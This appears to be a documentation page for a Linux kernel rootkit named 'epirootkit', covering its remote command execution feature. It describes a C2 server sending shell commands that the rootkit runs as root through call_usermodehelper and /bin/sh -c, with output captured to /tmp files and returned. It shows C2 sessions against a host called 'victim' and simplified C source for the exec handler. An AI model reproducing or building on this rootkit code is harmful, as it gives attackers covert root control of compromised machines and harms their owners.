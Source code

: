 ```yaml
---
title: "Command Execution"
description: "Execute shell commands remotely with full output capture"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 51
---
```


# Command Execution

Execute shell commands remotely through the rootkit with full output capture.

## How It Works

1. **C2 sends command**: `exec Client-1 whoami`
2. **Rootkit receives**: Command string via network
3. **Executes command**: Using `call_usermodehelper()` with `/bin/sh -c`
4. **Captures output**: Redirects stdout/stderr to temporary file
5. **Returns result**: Exit code and output back to C2

## Implementation Details

### Execution Method
- **API**: `call_usermodehelper()` (kernel 5.4.0 compatible)
- **Shell**: `/bin/sh -c "command"`
- **Privileges**: Runs with root privileges
- **Output capture**: Temporary files in `/tmp/epirootkit_out_*`

### Limits
- **Command length**: 1024 bytes (MAX_COMMAND_LENGTH)
- **Output size**: 64KB (MAX_OUTPUT_SIZE) with dynamic allocation
- **Timeout**: No timeout (commands run to completion)

## Usage Examples

```bash
# System information
c2-server$ exec Client-1 whoami
# Exit code: 0
# Output:
# root

c2-server$ exec Client-1 uname -a
# Exit code: 0
# Output:
# Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


## Technical Implementation

### Command Processing
```c
// Simplified version of the actual implementation
static int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", command_copy, NULL };
    char *envp[] = { 
        "HOME=/", 
        "PATH=/sbin:/bin:/usr/bin:/usr/local/bin", 
        "TERM=xterm",
        NULL 
    };
    
    // Generate unique temporary filename
    snprintf(temp_filename, sizeof(temp_filename), 
             "/tmp/epirootkit_out_%d", atomic_inc_return(&exec_counter));
    
    // Build command with output redirection
    snprintf(full_command, command_len + temp_len + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    // Execute command
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    
    // Read output from temporary file
    // ... (file reading logic)
    
    return send_result(formatted_result);
}
```

### Output Capture
- **Redirection**: `command > /tmp/epirootkit_out_X 2>&1`
- **File reading**: `kernel_read()` to get output
- **Dynamic allocation**: `vmalloc()` for large outputs
- **Cleanup**: Automatic temporary file removal


## Security Considerations

### Privileges
- **Root execution**: All commands run with kernel-level privileges
- **No sandboxing**: Commands have full system access
- **Logging**: All commands logged to kernel log via `pr_info()`

### Limitations
- **No interactive commands**: Cannot handle commands requiring user input

